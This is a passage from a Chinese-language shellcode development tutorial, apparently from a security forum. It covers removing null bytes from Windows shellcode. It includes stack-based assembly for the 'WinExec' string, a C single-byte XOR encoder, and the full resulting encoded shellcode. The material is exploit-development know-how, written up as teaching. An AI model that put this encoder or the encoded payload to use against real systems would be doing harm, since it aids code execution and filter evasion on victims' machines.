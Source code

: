对应的opcode-&gt;`81 78 04 78 65 63 00`,这个是因为"WinExec"大小为7个字节，恰好不是4的倍数导致出现空字节来补全，针对这个，有个通用的思路，那就是利用栈来转换。

```assembly
        xor edi, edi;
        push edi;
        push 63h;
        push word ptr 6578h;
        mov edi, [esp];
        add esp, 0Ah; //clear stack
```

![image-20211202133746051](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-1ba990ccb7b70bd865abd55d7613fbce8c70a220.png)

虽然上面得到了一些效果，但是如果遇到一些复杂指令的话，可能就需要进行人工FUZZ或者查阅指令，笔者不是很喜欢搞这个，那么有没有一种更为通用且简单去除ShellCode空字节的办法呢？ 有的，那就是ShellCode编码技术。

因为任何字符异或`\0`都等于其本身，所以可以去掉空字节，但是要注意，为了避免异或结果出现`\0`,必须选用ShellCode没出现过的字符且不能让`\0`作为异或的key，如下是笔者写的较为初级的单字节XOR编码Demo代码示例。

1)第一步对ShellCode进行单字节异或编码，得到编码后的ShellCode。

```c
void main() {
    unsigned char enShellcode[sizeof(shellcode)];
    int lenS = sizeof(shellcode)-1;
    char key = 0x5A;
    printf("Xor Key: \\x%x\n", key);
    for (int index = 0; index < lenS; index++) {
        enShellcode[index] = shellcode[index] ^ key;
        if (enShellcode[index] == 0x00) {
            printf("\nError Key, NULL BYTE Error!\n");
            return;
        }
        else {
            printf("index:%2d\t\\x%x->\\x%x\n",index, shellcode[index],enShellcode[index]);
        }
    }
    printf("EnShellCode=\"");
    for (int index = 0; index < lenS; index++) {
        printf("\\x%x", enShellcode[index]);
    }
    printf("\";");
}
```

得到的结果:

```php
EnShellCode="\x3e\xd1\x47\x6a\x5a\x5a\x5a\xd1\x1\x56\xd1\x1\x4e\xd1\x41\xd1\x41\xd1\x1\x4a\xd1\x9\x66\x59\x89\xd1\x8\x22\x59\x89\x69\x93\x13\xd1\x28\x7a\x59\xa9\x1b\xf7\x59\x99\xdb\x62\xd\x33\x34\x1f\x2f\xae\xdb\x22\x5e\x22\x3f\x39\x5a\x2f\xb1\xd1\x28\x7e\x59\xa9\x3c\xd1\x56\x14\xd1\x28\x46\x59\xa9\xd1\x4e\xd4\x59\x89\x69\x81\x9\x32\x74\x3f\x22\x3f\x32\x39\x3b\x36\x39\xd1\xae\x30\x50\xc\xa5\x88\xd9\x9e\x48\xca";
```
